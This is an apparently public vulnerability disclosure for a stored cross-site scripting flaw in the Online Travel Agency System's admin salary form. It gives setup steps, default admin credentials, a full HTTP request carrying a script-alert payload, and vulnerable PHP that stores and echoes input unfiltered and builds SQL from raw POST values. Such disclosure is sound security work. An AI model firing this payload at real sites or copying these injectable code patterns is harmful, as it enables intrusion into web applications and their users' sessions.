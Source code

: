 # [Online Travel Agency System-File upload vulnerabilities-insert.php]

## Basic Information

**[Bug Reporter]:** DililLearngent

**[Application Vendors]:** https://www.sourcecodester.com/online-travel-agency-system-using-php.html

**[Affected Version]:**Online Travel Agency System V1.0

**[Test Environment]:** windows10+apache+php7.0

**[Install]:**

1. start **Apache** and **MySQL**.

2. **Extract** the downloaded source code **zip** file.

3. **Copy** the extracted source code folder and **paste** it into the **www directory**.

4. **Create** a **new database** naming **"travel_agency"**.

5. **Import** the provided **SQL** file. The file is known as **"travel_agency.sql"** located inside the extracted source code folder.

6. **Browse** the **Online Travel Agency System** in a **browser**. i.e. **http://localhost/Travel**

   **Admin Access Information:**

   Username: **admin**
   Password: **admin**

## Bug Information

**[Vulnerability type]:** Stored XSS

**[Vulnerability Url]:** `http://10.151.222.198/Travel/admin/insert.php`

**[Vulnerability Location]:** /Travel/admin/insert.php

**[Vulnerability Test]:**

1. View http://10.151.222.198/Travel/admin/salary1.php, Insert the XSS payload in **"Description"**.

   ![](../../img/20230428180338.png)

2. After clicking the submit button, the update is successful and the XSS payload is successfully stored in the database.

   ```bash
   POST /Travel/admin/insert.php HTTP/1.1
   Host: 10.151.222.198
   Content-Length: 106
   Cache-Control: max-age=0
   Upgrade-Insecure-Requests: 1
   Origin: http://10.151.222.198
   Content-Type: application/x-www-form-urlencoded
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
   Referer: http://10.151.222.198/Travel/admin/salary1.php
   Accept-Encoding: gzip, deflate
   Accept-Language: zh-CN,zh;q=0.9
   Cookie: PHPSESSID=86dm5d6ncj5mk3db07gti39pb4
   Connection: close
   
   employee=Haqdost&month=jan&amount=55&description=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&salaryform=submit
   ```

3. Visit `http://10.151.222.198/Travel/admin/salary_view_all.php`, and a pop-up window appears.

   ![](../../img/20230428180424.png)

   ![](../../img/20230428180502.png)

**[code analysis]:**

/Travel/admin/insert.php

```php
<?php //insertion in salary form

if(isset($_POST["salaryform"]))
{
	
	$employee=$_POST["employee"];
  $month=$_POST["month"];
  $amount=$_POST["amount"];
  $description=$_POST["description"];
 $sql="insert into salary(employee,month,amount,description,inserted_by)values('$employee','$month','$amount','$description','$user')";
 $result=mysqli_query($con,$sql) or die(mysqli_error($con));
 
 $salary_id=getMaxID('salary_id','salary');

 insertCash($amount,"Cr",$description);
 
 $maxCashID=getMaxID('cashID','cash');
 mysqli_query($con,"INSERT INTO transaction(cashID,salaryID) VALUES ('$maxCashID', '$salary_id')" ) or die("Error in salary Query :: ".mysqli_error($con));
 
 if($result)
	{ echo"data is inserted successfully";
	header('location:salary_view_all.php');
	}
	else
	{ echo "error occured";
	}
 
}
?>
```

When the **description** parameter value in the POST is obtained, it is stored in the database without any filtering, resulting in stored XSS.

/Travel/admin/salary_view_all.php

```php+HTML
 <?php 
  $sql="select*from salary";
  $result=mysqli_query($con,$sql) or die(mysqli_error($con));
  if(mysqli_num_rows($result)<1)
  {
	  echo"<script type='text/javascript'>alert('No Salary found');
	  document.location='employee_view.php'</script>";
	 
  }
  while($row=mysqli_fetch_array($result))
  {
	  $salary_id=$row["salary_id"];	 	 	 	 	 	 		 
	  $month=$row["month"];
 	  $amount=$row["amount"];
 	  $description=$row["description"];
	   $employee=$row["employee"];
	    $date=$row["date"];
	    $inserted_by=$row["inserted_by"];
	 
	 
  ?>

<td><?php       echo $description; ?></td>
```

And the output is made in the page.